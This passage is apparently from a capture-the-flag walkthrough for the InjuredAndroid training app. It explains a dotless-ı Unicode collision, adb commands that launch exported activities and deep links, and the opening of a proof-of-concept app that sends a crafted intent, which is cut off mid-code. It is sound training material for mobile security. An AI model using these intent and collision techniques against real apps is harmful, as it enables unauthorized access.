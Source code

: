 1. Research "Github dotless i". 

The method toUpperCase works in Kotlin as well as Java for the unicode collision. 

```kotlin
val value = dataSnapshot.value as String?
                        when {
                            post == value -> Toast.makeText(this@FlagTenUnicodeActivity, "No cheating. :]",
                                    Toast.LENGTH_SHORT).show()
                            post.toUpperCase(Locale.ROOT) == value!!.toUpperCase(Locale.ROOT) -> correctFlag()
                            else -> Toast.makeText(this@FlagTenUnicodeActivity, "Try again! :D",
                                    Toast.LENGTH_SHORT).show()
                        }

```

From the exercise code above we can see that `post.toUpperCase(Locale.ROOT) == value!!.toUpperCase(Locale.ROOT) -> correctFlag()` is onverting the dotless ı to a normal i.

2. Authenticate using the b3nac.injuredandroid.QXV0aA activity by using an adb command to invoke the activity.

```bash
adb shell am start -n b3nac.injuredandroid/.QXV0aA

```

3. Submit email with dotless i after authenticating.

---

### Flag 11 - HIIMASTRING

1. First invoke the activity with a deep link so you can access the post form. 

`adb shell am start -W -a android.intent.action.VIEW -d "flag11://"`

2. Secondly find the binary in the apk and run strings on the golang binary or run the binary and the Golang binary will print the flag. 

3. Binary location is: `res/values/meŉu`

---

### Flag 12 - Flag complete after using a PoC apk

1. Complete the exploit by using a PoC app, an example from my Youtube video.

```java

package b3nac.injuredandroid.poc;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent next = new Intent();
        next.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagTwelveProtectedActivity");
        next.putExtra("totally_secure", "https://google.com");

```